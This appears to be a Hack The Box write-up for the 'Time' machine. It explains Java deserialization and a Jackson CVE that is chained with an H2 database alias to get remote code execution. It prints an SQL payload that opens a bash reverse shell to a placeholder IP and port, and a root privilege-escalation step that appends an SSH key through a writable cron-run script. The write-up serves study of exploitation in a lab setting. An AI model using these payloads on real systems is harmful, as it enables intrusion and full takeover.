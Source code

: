 ```yaml
---
title: "Time Hackthebox"
date: 2021-05-27
draft: false
---
```



## Overview

This box is a Linux one. For the initial foothold you need to exploit a bug within the Jackson library for deserializing **JSON's** leading to a SSRF which can leverage a RCE. Once on the box a simple classic enumeration reveals a root bash script with read/write access. Consequenlty, just importing your pub **SSH** key into the `authorized_keys` file will grant access to root.


## Enumeration

Running nmap reveals 2 services:

```bash
> nmap -sC -sV -oA nmap/time 10.10.10.214
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Once we check the web server, we see that we can beautify/validate JSON. Also, the validate functionality is in Beta. So let's check that first.
<br>

Upon submitting `{"test"}` we see the following error: 
`Validation failed: Unhandled Java exception: com.fasterxml.jackson.databind.exc.MismatchedInputException: Unexpected token (START_OBJECT), expected START_ARRAY: need JSON Array to contain As.WRAPPER_ARRAY type information for class java.lang.Object`

So it's expecting an array: `["test"]`. 
But that also throws an error: 
`Validation failed: Unhandled Java exception: com.fasterxml.jackson.databind.exc.InvalidTypeIdException: Could not resolve type id 'test' as a subtype of [simple type, class java.lang.Object]: no such class found`

Now, in both of our errors we see that they're thrown by a library called [jackson](https://github.com/FasterXML/jackson), which is used to 
serialize or map POJO *(Plain Old Java Objects)* to JSON and deserialize JSON to POJO. With some more searching we find a [CVE](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html) which addresses a deserialization vulnerability where an attacker could control the class to be deserialized.


## Understanding the CVE
<br>

### What is serialization/deserialization?

In order to understand what deserialization vulnerabilities are and behave, we firstly need to get familiar with what serialization & deserialization is. Swapneil Kumar Dash wrote a beautiful [article](https://medium.com/@swapneildash/understanding-java-de-serialization-ee96054da15d) about this, however I will provide a short overview in this post as well. 

> In computing, serialization  is the process of translating a data structure or object state into a format that can be stored or transmitted and reconstructed later. Deserialization is the opposite.

In our case, we translate java objects into JSON and vice-versa.

### What could go wrong?

Usually, in java we can use something like this to deserialize data:
```java
...
FileInputStream fin  = new FileInputStream("your/file/path");
ObjectInputStream in = new ObjectInputStream(fin);
customClassInstance  = (CustomClass) in.readObject();
...
```
The main problem lies within the way `readObject()` deserializes data which executes the class while also
throwing an error if we give it a serialized input of a different class.

I won't go into much detail here on this topic, since it's a broad one. However, if you're interested in 
learning more about it you should check the resources and [this talk](https://www.youtube.com/watch?v=t-zVC-CxYjw) by **Alexei Kojenov** which also made some great [examples](https://github.com/kojenov/serial) you can play 
around with.
<br>

### How java gadgets work?
Gadgets are just a class or funcion that's available within the executing scope of an application. For example the following code is a simple implementation in Java:
```java
/* CacheManager.java */
public class CacheManager implements Serializable {
	private final Runnable initHook;
	public void readObject(ObjectInputStream in) {
		in.defaultReadObject();

		initHook.run();
	}
}

/* CommandTask.java */
public class CommandTask implements Runable, Serializable {
	private final String cmd;
	public CommandTask(String cmd) {
		this.cmd = cmd;
	}

	public void run() {
		Runtime.getRuntime().exec(cmd);
	}
}
```

Here, an attacker can inject a serialized `CommandTask` into an input stream that will be read by `CacheManager`, which in return invokes run. Therefore, he gains arbitrary command execution.
<br>

### Jackson library deserialization vulnerability POC
The *CVE* of interest is focusing mostly on the *Jackson* library. They found that when *Jackson* deserializes a specific class (`ch.qos.logback.core.db.DriverManagerConnectionSource`), it can be abused to instantiate a Java Database Connectivity *(JDBC)*, which is used to connect & interact with the dabase. To understand better let's break down the payload used in the [**POC**](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html):

`$ "[\"ch.qos.logback.core.db.DriverManagerConnectionSource\", {\"url\":\"jdbc:h2:mem:\"}]"`

As said previously we use the `DriverManagerConnectionSource` class to pass an url, which will trigger [`setUrl`](https://www.javadoc.io/doc/ch.qos.logback/logback-core/1.1.11/ch/qos/logback/core/db/DriverManagerConnectionSource.html#setUrl(java.lang.String)). Afterwards, the object is serialized into a JSON object again. Consequently, the `getConnection()` [method](https://www.javadoc.io/static/ch.qos.logback/logback-core/1.1.11/ch/qos/logback/core/db/DriverManagerConnectionSource.html#getConnection()) is called which creates an in-memory database. This is further used to create a remote connection.
<br>

Until now, we've only got a way to generate a Server Side Request Forgery *(SSRF)*. So how could we turn this into a full chain RCE ?
In order to achieve that, the guys from [doyensec](https://doyensec.com/) leveraged the [H2](http://www.h2database.com/html/features.html) JDBC driver which has the capability to run SQL scripts from the JDBC url. This alone won't allow an attacker to run Java code inside the JVM context, however H2 has the capability to specify custom aliases containing java code [which can be abused](https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html).

```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
	java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream())
		.useDelimiter("\\A");
	return s.hasNext() ? s.next() : "";
}$$;
CALL SHELLEXEC('whoami')
```

As a result, we only need to serve a sql file to the target machine that makes the request to our in-memory *DB* with the use of `DriverManagerConnectionSource` and we have remote code execution.


## Leveraging what we've learned for getting user

We've learned that we can use a deserialization vulnerability within Jackson to leverage a connection to a in-memory *DB*, which accepts aliases that can be used to execute commands. So, all wee need to do is:

1. *Prepare the `inject.sql` script*
```java
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
	java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream())
		.useDelimiter("\\A");
	return s.hasNext() ? s.next() : "";
}$$;
CALL SHELLEXEC('bash -i >& /dev/tcp/IP/PORT 0>&1')
```

2. *Setup http server & netcat listener*
![](https://i.imgur.com/kYaG0vZ.png)


3. *Abuse the deserialization vulnerability & use the `DriverManagerConnectionSource` gadget*

4. *Enjoy your shell*
![](https://i.imgur.com/jh0fwLP.png)



## Privilige escalation

Once on the box, a simple enumeration reveals that we have write access to a backup script ran by root.
```bash
bash-5.0$ cat /usr/bin/timer_backup.sh
cat /usr/bin/timer_backup.sh
#!/bin/bash
zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip
```

So, we could just import our public SSH key and have root access.
```bash
echo "echo SSH_PUB_KEY >> /root/.ssh/authorized_keys" >> /usr/bin/timer_backup.sh
```


## Conclusion
I've seen that a lot of people said that this box is easy, which I can agree in the way that you can find the CVE quite easy and modify the POC payload to get the flags and move on, without diving more into it. However, I think that this is a great box for someone new and even for some more experienced people. I say this because if you really want to understand what's going on behind the scenes, which you should, you understand new concepts such as: *java deserialization, gadgets, how an actual CVE is found, etc*.

Honestly, I learned a lot by playing around with this box and afterall this is the goal of *HTB*. To learn new concepts that you can add to your skill-set which elevates your craft.

If you want to dig deeper into deserealization attacks within java libraries, I suggest you check the references down below. I found some really great articles/talks about this subject which I can't give enough credit.

## References
- [Understanding Java Deserialization](https://medium.com/@swapneildash/understanding-java-de-serialization-ee96054da15d)
- [Java deserealization lib to secure apps](https://github.com/ikkisoft/SerialKiller)
- [Understanding insecure implementation of Jackson deserialization](https://medium.com/@swapneildash/understanding-insecure-implementation-of-jackson-deserialization-7b3d409d2038)
- [On Jackson CVEs: Don’t Panic — Here is what you need to know](https://medium.com/@cowtowncoder/on-jackson-cves-dont-panic-here-is-what-you-need-to-know-54cd0d6e8062#da96)
- [SnakeYaml Deserilization exploited](https://medium.com/@swapneildash/snakeyaml-deserilization-exploited-b4a2c5ac0858)
- [POC tool 4 generating payloads that exploit unsage Java object deserilization](https://github.com/frohoff/ysoserial)
- [Depickling, gadgets and chains: The class of exploit that unraveled Equifax](https://brandur.org/fragments/gadgets-and-chains)
- [POC Jackson deserilization on Spring web app](https://github.com/galimba/Jackson-deserialization-PoC)
- [Java deserilization cheat-sheet](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet#jackson-json)
- [Jackson Library](https://github.com/FasterXML/jackson)
- [Marshalling Pickles - OWASP AppSec California 2015](https://www.youtube.com/watch?v=KSA7vUkXGSg)
- [CVE-2019-12384](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html)
